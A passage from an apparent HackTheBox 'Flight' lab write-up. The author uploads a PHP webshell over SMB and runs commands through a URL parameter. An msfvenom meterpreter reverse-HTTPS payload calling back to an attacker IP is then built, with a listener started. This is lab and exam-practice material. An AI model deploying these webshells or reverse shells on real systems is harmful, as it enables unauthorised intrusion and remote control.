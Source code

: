 This is the webshell I will be uploading to the share.

```php
<?php
        $cmd = system($_GET['fc8358bcf09e4b3947d1975622a9df14']);
        echo "<pre>" . $cmd . "</pre>";
?>
```

There wasn’t any type of sanitization this time.

```bash
smbclient -U 'flight.htb\c.bum%<REDACTED>' //10.129.228.120/Web -c "cd flight.htb; put webshell.php"
putting file webshell.php as \flight.htb\webshell.php (0.5 kb/s) (average 0.5 kb/s)
                                                                                                                                                                                             
smbclient -U 'flight.htb\c.bum%<REDACTED>' //10.129.228.120/Web -c "ls flight.htb/"                 
  css                                 D        0  Wed May  8 05:07:00 2024
  images                              D        0  Wed May  8 05:07:00 2024
  index.html                          A     7069  Thu Feb 24 05:58:10 2022
  js                                  D        0  Wed May  8 05:07:00 2024
  webshell.php                        A      101  Wed May  8 05:07:59 2024
```

Unfortunately, this web service is running as 'svc_apache'. At least we managed to get RCE.

```
http://flight.htb/webshell.php?fc8358bcf09e4b3947d1975622a9df14=whoami
```

<img src="/assets/img/flight/Untitled 8.png" alt="Untitled 8.png" style="width:800px;">

I’m preparing for the OSEP so I want to practice using Metasploit. You could use any other tool or a PowerShell one-liner. Let’s create the malicious executable and start the meterpreter listener.

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.14.112 LPORT=443 -f exe -o dusk.exe

msfconsole -q -x "use multi/handler; set payload windows/meterpreter/reverse_https; set lhost tun0; set lport 443; run"
```

Next step is to upload the following file over SMB and execute it via URL. It will download the the binary that we created and execute it, which is why I called it 'primer.php' (reference to DNA replication XD).
